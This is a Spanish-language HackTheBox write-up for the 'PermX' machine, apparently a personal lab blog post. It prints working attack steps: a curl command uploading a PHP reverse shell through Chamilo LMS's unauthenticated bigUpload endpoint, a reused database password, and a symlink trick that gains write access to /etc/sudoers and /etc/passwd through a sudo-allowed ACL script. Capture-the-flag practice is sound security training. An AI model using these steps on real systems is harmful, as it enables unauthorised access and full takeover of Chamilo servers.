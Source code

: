 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/PERMX.jpg)


# PERMX [HACKTHEBOX] / Easy
### (Wfuzz Hosts Scan, File Linking for PrivEsc, Chamilo LMS Unauthenticated File Upload Vulnerability, BigUploadFile Remote Code Execution (RCE), Sudoers File Edit for Privilege Escalation using ln command)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 


# Nmap Scan

Primero, hacemos un escaneo de nmap, el cual nos encuentra 2 puertos, nos metemos en la web (puerto 80)

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv [ip_víctima] -oN archivo_de_escaneo
```

![image](../zimages/Pasted_image_20241019005922.png)

Pero no nos deja, primero tenemos que meter el dominio en /etc/hosts:

![image](../zimages/Pasted_image_20241019010059.png)

# Web Enumeration

Como no encontramos nada en la web, probamos con wfuzz un par de cosas. Nos saca un subdirectorio si buscamos:

```bash
wfuzz -c -t 200 --hc=302 -w /usr/share/wordlists/subdomains-top1million-110000.txt -H "Host: FUZZ.permx.htb" http://permx.htb/
```

![image](../zimages/Pasted_image_20241019013205.png)

Si buscamos "chamilo" por la web, encontramos que hay un exploit con RCE, el cual nos dice que se puede conseguir fácilmente una RevShell. Vamos a copiarlo y ver si la máquina es vulnerable.

![image](../zimages/Pasted_image_20241019013304.png)

```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
```

Ejecutamos según las instrucciones:

```bash
python3 main.py -u http://lms.permx.htb -a scan 
```

Y nos sale que es vulnerable:

![image](../zimages/Pasted_image_20241019013756.png)

# Chamilo LMS Unauthenticated File Upload

Vamos a explotarlo según el exploit, que si investigamos por internet vemos que usa el siguiente payload:

```python
curl -F “bigUploadFile=@revshell.php” “http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported
```

tenemos que crear una reverse shell con php e incluirla en el curl para que se suba, después, hacemos un curl a la ubicación donde se sube el archivo:
`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/revshell.php`

![image](../zimages/Pasted_image_20241019020204.png)

# User Flag

Si nos acordamos de la web, había un sitio donde había un login, eso significa que tiene que haber una base de datos que almacene eso. Buscando por los directorios de la web, encontramos un archivo config.php con las credenciales:

```bash
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

Vamos a conectarnos por ssh como el usuario que había en el directorio /home de la máquina (mtz):

```bash
ssh mtz@10.10.11.23
```

Tenemos la flag de user:

![image](../zimages/Pasted_image_20241019024638.png)

# Root Flag

Si buscamos por `sudo -l`, encontramos que solo podemos ejecutar como root un archivo .sh, si lo leemos vemos que lo que hace es darle permisos a un archivo. Si buscamos por internet una forma de crear un acceso directo a un archivo, de forma que esté dentro de el directorio /home/mtz, vemos que hay un comando ("ln"). Lo utilizaremos de la siguiente forma:

```bash
ln -s /etc/sudoers acceso_directo
```

![image](../zimages/Pasted_image_20241019030427.png)

Ahora vamos a ejecutar el script basándonos en los parámetros que tenemos que utilizar (user, perms, file):

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/acceso_directo
```

Ahora vamos a abrir el acceso directo (/etc/sudoers) con nano, de esta forma nos abrirá el archivo de los suders con permisos de escritura, ahí pondremos a mtz como sudoer:

![image](../zimages/Pasted_image_20241019031033.png)

Si ejecutamos sudo su vemos que no nos deja:

![image](../zimages/Pasted_image_20241019031659.png)


Vamos a hacer lo mismo pero con el archivo /etc/passwd, donde editaremos la línea de "root" y quitaremos la "x" para poder ser root sin poner contraseña:

![image](../zimages/Pasted_image_20241019034004.png)

Ya somos root:

![image](../zimages/Pasted_image_20241019034036.png)


# ./ROOTED
